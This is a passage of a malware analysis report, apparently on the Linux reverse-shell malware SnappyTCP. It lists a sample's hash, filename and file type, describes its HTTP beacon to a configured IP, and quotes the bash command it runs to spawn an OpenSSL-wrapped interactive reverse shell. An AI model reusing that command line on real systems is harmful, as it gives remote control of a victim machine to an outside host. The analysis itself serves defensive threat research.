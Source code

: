 Taking a closer look at additional samples, we can see a minor difference than those already mentioned.













SHA-256

1ac0b2e91ba3d33ed6b8cd90f5c1f63454bfdf7aad7dbf4f239445f31dfc6eb5


Filename


[bioset]

File type

ELF

File size

14,584 Bytes





In the other samples, which use OpenSSL and TLS certificates for a more secure connection, the malware connects to an IP parsed from the conf file and sends:

GET /ssl.php HTTP/1.1\\r\\nHost: %s\\r\\nHostname: %s\\r\\nConnection: close\\r\\n\\r\\n
In a similar fashion to previous samples, it spawns a pthread that calls bash and runs an executable, except this time it calls a different one named ‘update’ compared to the previous ‘kdd_launch’:
bash -c \\"./update exec:'bash -li',pty,stderr,setsid,sigint,sane OPENSSL:%s:%d,verify=0 2>&1>/dev/null&\\"






Additional malware insights

We observed that many of the binaries for SnappyTCP are often compiled with different toolchains, as shown in Table 1. Additionally, the GNU C Library (GLIBC) has been observed statically linked into the binary which offers the malware developer the ability to keep everything self contained while not needing to link against the library files directory on the target machine. The method for running the code differed, with some cases having a final output as an executable or a shared object file.














MD5

